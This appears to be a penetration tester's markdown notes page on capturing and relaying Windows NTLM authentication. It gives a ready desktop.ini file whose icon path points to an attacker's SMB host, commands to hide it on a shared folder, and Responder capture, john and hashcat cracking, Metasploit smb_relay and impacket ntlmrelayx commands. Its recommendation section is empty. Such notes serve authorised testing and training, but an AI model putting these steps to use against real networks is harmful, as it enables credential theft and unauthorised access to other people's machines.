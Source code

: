 
## TLDR


## Background


Goal: Steal  NTLM-hash or a challenge-response handshake.  
Goal: Perform a relay attack to authenticate against a server.  


There are many ways to trick computers into sending the authenticated user's NTLM hashes. 

### Desktop.ini files

Find a commonly used share where your user has write permissions. See [SMB Shares Mining](../../active_directory_privilege_escalation/smb_shares_mining) for how to find writable shares. The folder cannot be the root-folder of the share. So if you have write-access to the root of the share you can just create a folder there.

Name the folder `0Dcouments` or something like that. If the folder that is writable contains many folders the folder lower down won't be "rendered" until the user scrolls down. So naming you folder somthing with a `0` garantes that it will be rendered early.

Create `desktop.ini` file on an SMB-share used by other users. Viewing the share in explorer will cause a
request for a resource, allowing the capture or relay of NTLM-challenge responses.


Filename: Desktop.ini

```
[.ShellClassInfo]
IconFile=\\10.13.37.100\test\test.ico
IconIndex=0
```

The folder in which the Desktop.ini file in needs to be configured with the system flag.

```
attrib +s <path-to-folder>
```

We need to now also set desktop.ini to be hidden and system before windows will respect it.

```
attrib +s +h desktop.ini
```


Placing this on a commonly visited network share, will trick the victim's computer into 
authenticating towards the specified IP. This can be used in NTLM-relaying attacks, or
to steal the challenge-response and run hashcat on it


### Capture Challenge Response and Crack the Hash

When the victim enters the share the victim machine will try to authenticate to your attacker-machine, and using responder we can retreive the NTLM hash of the victim.


** IMPORTANT DO NOT RUN RESPONDER WITHOUT the `-A` flag unless you know what you are doing **  
It will poison and other suff. `-A` will make it passive, analyzing mode.

```
responder -v -A -I eth0
```

Now once responder has recorded the challenge/response it is stored in a logfile found here (on kali):

```
/usr/share/responder/logs/SMB-NTLMv2-SSP-192.168.66.10.txt
```

If you don't want to use responder you can use tcpdump, and the use `pcredz`. It will find the authentications that are used. Not sure how well it works with challenge-response though.

### Cracking the Hash

With John:  

```
john SMB-NTLMv2-SSP-192.168.66.10.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

With Hashcat:

```
hashcat -m 5600 -a 3 --force /usr/share/responder/logs/SMB-NTLMv2-SSP-192.168.66.10.txt /usr/share/wordlists/rockyou.txt
```


## Relaying



**Metasploit**


```
use windows/smb/smb_relay


# SMBHOST  192.168.66.88    no        The target SMB server (leave empty for originating system)

set SMBHOST <ANY host that you think the user has Admin access to>

# Set the payload you want
```

The authentication actually worked but I got no shell when I tested it. Not sure why.

**Impacket**

The same thing can be done with impacket.

If no command is entered the default behaviour is to dump all the users hashes if the authenticated user is an administrator of course.

```
sudo ./ntlmrelayx.py -t 192.168.66.88 -c whoami
```



## Recommendation